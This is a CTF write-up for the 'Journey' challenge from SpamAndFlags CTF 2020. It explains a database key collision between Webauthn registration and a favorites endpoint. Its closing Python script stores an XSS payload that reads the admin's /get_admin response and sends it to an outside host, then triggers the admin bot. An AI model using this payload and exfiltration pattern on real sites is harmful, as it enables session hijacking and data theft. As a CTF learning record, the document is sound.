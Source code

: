 To quote the source of `admin.html`,
```html
Your flag is: <span id="flag" style="font-weight: bold"></span></br>
<!-- ... -->
jsonReq('/get_admin').then(data => { console.log(data); $("#flag").text(data.flag); // ...
```

In the server source, we see
```javascript
app.get('/get_admin', (req, res) => req.session.isAdmin ? res.send({ flag: process.env.FLAG }) : res.send({ err: 'you are not an admin' }))
app.get('/admin_login', (req, res) => { 
    if (crypto.createHash("sha256").update(req.query.pass).digest("hex") === "03d8cdb4ca4edf3f1a1f85d54ebda0bd456b9a7d68029c8fe27ed1cdd7a4e2f3") {
        req.session.isAdmin = true
        res.redirect('/admin.html')
    }
    else
        res.send({ err: 'incorrect password' })
})
```
This means that we either need a way to change arbitrary things in the session,
or have the admin execute some JavaScript on our behalf. For a moment, we might
contemplate this part of the code:
```javascript
app.use(session({ secret: 'keyboard cat', saveUninitialized: true, resave: false, cookie: { maxAge: 48 * 60 * 60 * 1000 /* 48 hours */ } }))
```
... but a quick look at the documentation of `express-session` shows that
the session contents are stored server-side and the secret is only used to
sign the session ID (which itself is, if I'm reading the code correctly,
24 cryptorandom bytes).

Thus, it seems that XSS is the goal for this part of the challenge.

The problem stems from here:
```javascript
const db = new LevelAdapter('userdb');
const webauthn = new Webauthn({ origin: ORIGIN, store: db, rpName: 'SpamAndFlags CTF 2020 - Journey challenge' })
app.use('/webauthn', webauthn.initialize())
// ...
app.get('/favorites', async function (req, res) {
    const { favId, type } = req.query
    const obj = await db.get(`fav_${favId}`)
    if (obj && type in obj)
        res.send(obj[type])
    else
        res.send({ err: 'not found' })
});
```
The share-your-favorites feature shares the database with Webauthn. Upon a quick
inspection, we see that the latter uses usernames as the database keys:
```javascript
const user = {
  id: base64url(crypto.randomBytes(32)),
  [usernameField]: username,
}

Object.entries(this.config.userFields).forEach(([bodyKey, dbKey]) => {
  user[dbKey] = req.body[bodyKey]
})

await this.store.put(username, user)
```

What's this `userFields` thing? No such key was passed to the Webauthn constructor,
so the default will be used: `['name', 'displayName']`. This means that, if we hit
the `/webauthn/register` endpoint with `name` starting with `fav_`, we can make
the `/favorites` endpoint operate over an object we control:

```python
from random import randint
import requests as rq

URL = "http://journey.ctf.spamandhex.com"
ID = 'pwnujemy' + str(randint(0, 10**9))

payload = '<script>fetch("/get_admin", {method:"GET",credentials:"include"}).then(response => response.text()).then(flag => window.location="https://jakub.kadziolka.net/1337/cat.jpg?"+flag);</script>'

challenge = rq.post(URL+"/webauthn/register",
    json={
        'name': 'fav_' + ID,
        'displayName': payload
    }).json()

report = rq.get(URL+"/report",
    params={
        'url': URL+"/favorites?type=displayName&favId="+ID,
    })
```
